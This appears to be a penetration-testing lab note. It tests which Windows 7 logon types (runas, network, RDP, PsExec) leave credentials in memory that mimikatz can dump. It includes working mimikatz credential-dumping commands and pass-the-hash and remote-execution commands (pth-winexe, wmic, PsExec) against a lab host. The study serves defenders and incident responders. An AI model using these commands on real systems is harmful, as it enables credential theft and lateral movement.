



# Network vs Interactive Logons

Tested against Microsoft Windows 7 Professional 6.1.7601 Service Pack 1 Build 7601

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump using mimikatz on the victim system to see what we can get before we start logging on to it using other methods such as runas, psexec, etc. To test this, the victim system was rebooted and no other attempts to login to the system were made except for the interactive logon to get access to the console:



```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```



Credentials were cached and got dumped by mimikatz:


## Interactive Logon \(2\) via runas and Local Account



```csharp
runas /user:low cmd
```





```csharp
mimikatz # sekurlsa::logonpasswords
```



Credentials were cached and got dumped by mimikatz:


## Interactive Logon \(2\) via runas and Domain Account



```csharp
runas /user:spot@offense cmd
```





```csharp
mimikatz # sekurlsa::logonpasswords
```



Credentials were cached and got dumped by mimikatz:


## New Credentials \(9\) via runas with /netonly

```csharp
runas /user:low /netonly cmd
```

Note that event logs show the logon of type 9 for the user `mantvydas`, although we requested to logon as the user `low`:



Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, get cached:


## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:



```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```





```text
sekurlsa::logonpasswords
```



Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:



```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```





```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```





```text
sekurlsa::logonpasswords
```



Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:


Credentials were cached and got dumped by mimikatz:



Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:


## PsExec From An Elevated Prompt



```csharp
.\PsExec64.exe \\10.0.0.2 cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```




Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials



```csharp
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```



Credentials were cached and got dumped by mimikatz:



Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:


## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

## References




